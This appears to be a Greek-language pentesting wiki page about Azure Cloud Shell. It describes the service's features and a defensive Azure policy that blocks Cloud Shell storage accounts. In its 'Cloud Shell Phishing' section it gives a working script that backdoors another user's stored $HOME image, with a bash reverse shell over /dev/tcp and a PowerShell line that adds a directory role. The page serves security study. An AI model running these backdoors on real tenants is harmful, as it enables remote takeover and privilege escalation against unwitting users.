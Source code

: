 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** είναι ένα διαδραστικό, αυθεντικοποιημένο, προσβάσιμο μέσω προγράμματος περιήγησης τερματικό σχεδιασμένο για τη διαχείριση πόρων Azure, προσφέροντας την ευελιξία να εργάζεστε είτε με Bash είτε με PowerShell. Εκτελείται σε έναν προσωρινό, ανά συνεδρία διακομιστή που λήγει μετά από 20 λεπτά αδράνειας, ενώ διατηρεί αρχεία στην τοποθεσία $HOME χρησιμοποιώντας μια κοινή χρήση 5-GB. Το Cloud Shell μπορεί να προσπελαστεί μέσω πολλών σημείων, συμπεριλαμβανομένων του Azure portal, shell.azure.com, Azure CLI και τεκμηρίωσης PowerShell, της εφαρμογής Azure για κινητά και της επέκτασης Azure Account του Visual Studio Code.

Δεν υπάρχουν δικαιώματα που να έχουν ανατεθεί σε αυτή την υπηρεσία, επομένως δεν υπάρχουν τεχνικές ανύψωσης προνομίων. Επίσης, δεν υπάρχει κανενός είδους αρίθμηση.

### Key Features

- **Preinstalled Tools**: Το Cloud Shell περιλαμβάνει ένα ολοκληρωμένο σύνολο προεγκατεστημένων εργαλείων όπως Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git και επεξεργαστές κειμένου όπως vim, nano και emacs. Αυτά τα εργαλεία είναι έτοιμα προς χρήση. Για να καταγράψετε τα εγκατεστημένα πακέτα και modules μπορείτε να χρησιμοποιήσετε "Get-Module -ListAvailable", "tdnf list" και "pip3 list".
- **Azure drive (Azure:)**: Το PowerShell στο Azure Cloud Shell περιλαμβάνει τον Azure drive (Azure:), ο οποίος επιτρέπει εύκολη πλοήγηση στους πόρους Azure όπως Compute, Network και Storage χρησιμοποιώντας εντολές παρόμοιες με το σύστημα αρχείων. Μεταβείτε στον Azure drive με cd Azure: και επιστρέψτε στον κατάλογο αρχικής σας τοποθεσίας με cd ~. Μπορείτε να χρησιμοποιήσετε cmdlets Azure PowerShell για να διαχειριστείτε πόρους από οποιονδήποτε δίσκο.
- **Custom Tool Installation**: Οι χρήστες που διαμορφώνουν το Cloud Shell με έναν λογαριασμό αποθήκευσης μπορούν να εγκαταστήσουν επιπλέον εργαλεία που δεν απαιτούν δικαιώματα root. Αυτή η δυνατότητα επιτρέπει περαιτέρω προσαρμογή του περιβάλλοντος Cloud Shell, επιτρέποντας στους χρήστες να προσαρμόσουν τη ρύθμισή τους στις συγκεκριμένες ανάγκες τους.
- **$HOME persistence**: Όταν ξεκινάτε το Azure Cloud Shell για πρώτη φορά, μπορείτε να το χρησιμοποιήσετε με ή χωρίς έναν συνδεδεμένο λογαριασμό αποθήκευσης.
- Η επιλογή να μην συνδέσετε αποθήκευση δημιουργεί μια εφήμερη συνεδρία όπου τα αρχεία διαγράφονται όταν τελειώνει η συνεδρία.
- Για να διατηρήσετε αρχεία σε διάφορες συνεδρίες, σας δίνεται η επιλογή να **συνδέσετε έναν λογαριασμό αποθήκευσης**, ο οποίος συνδέεται αυτόματα ως `$HOME\clouddrive`, με τον κατάλογο σας `$HOME` **να αποθηκεύεται ως αρχείο .img σε μια Κοινή Χρήση Αρχείων.**

### Cloud Shell Phishing

Εάν ένας επιτιθέμενος βρει εικόνες άλλων χρηστών σε έναν Λογαριασμό Αποθήκευσης στον οποίο έχει δικαιώματα εγγραφής και ανάγνωσης, θα είναι σε θέση να κατεβάσει την εικόνα, **να προσθέσει μια πίσω πόρτα bash και PS σε αυτήν**, και να την ανεβάσει ξανά στον Λογαριασμό Αποθήκευσης έτσι ώστε την επόμενη φορά που ο χρήστης θα έχει πρόσβαση στο shell, οι **εντολές θα εκτελούνται αυτόματα**.

- **Download, backdoor and upload the image:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **Στη συνέχεια, ψαρέψτε τον χρήστη για να αποκτήσετε πρόσβαση στο https://shell.azure.com/**

### Βρείτε & Απαγορεύστε τους Αυτόματους Λογαριασμούς Αποθήκευσης του Cloud Shell

Οι λογαριασμοί αποθήκευσης που δημιουργούνται από το Cloud Shell είναι επισημασμένοι με **`ms-resource-usage:azure-cloud-shell`**. Είναι δυνατόν να δημιουργηθεί μια πολιτική πόρων Azure που να απαγορεύει τη δημιουργία πόρων με αυτή την ετικέτα.

Βρείτε όλους τους λογαριασμούς αποθήκευσης που δημιουργήθηκαν από το Cloud Shell με ετικέτες:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
Πολιτική για την απαγόρευση της δημιουργίας αυτόματων λογαριασμών αποθήκευσης για την αποθήκευση του cloud shell με βάση τις ετικέτες:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## Αναφορές

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## Επιμονή

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
